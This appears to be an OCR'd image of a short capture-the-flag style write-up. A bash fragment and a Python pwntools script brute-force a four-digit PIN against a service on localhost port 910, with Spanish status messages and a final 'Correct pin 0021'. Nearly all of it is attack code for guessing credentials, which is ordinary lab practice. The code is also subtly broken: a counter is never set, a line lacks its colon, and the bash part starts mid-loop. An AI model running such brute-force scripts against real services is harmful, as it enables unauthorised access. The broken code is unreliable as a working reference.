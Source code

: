 ``` bash


  if ps -p $! > /dev/null; then

    kill $!
  fi

  if ! grep "denied" test &>/dev/null; then

    echo "Este este $line"
    break 
  fi

done < "$pins_list"
```

``` python
#!/usr/bin/python3

from pwn import *
import time

def tryPin():

	# create a dictionary > #in bash -> for i in {0000..9999}; do echo $i; done > pins.txt
	pins = open("pins.txt", "r")

	p1 = log.progress("Fuerza Bruta")
	p1.status("COmenzando fuerza bruta")
	time.sleep(2)

	for pin in pins:
		p1.status("probando con el pin %s [%s/10000]" % (pin.strip('\n'), str(counter)))
		
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('127.0.0.1', 910))
		
		data = s.recv(4096)
		
		s.send(pin.encode())
		
		data = s.recv(1024)
		
		if b"Access denied" not in data:
			p1.success("El pin correcto es %s" % pin.strip('\n'))
			sys.exit(0)
			
		counter +=1
	

if __name__ == '__main__'

	tryPin()

```
Correct pin 0021
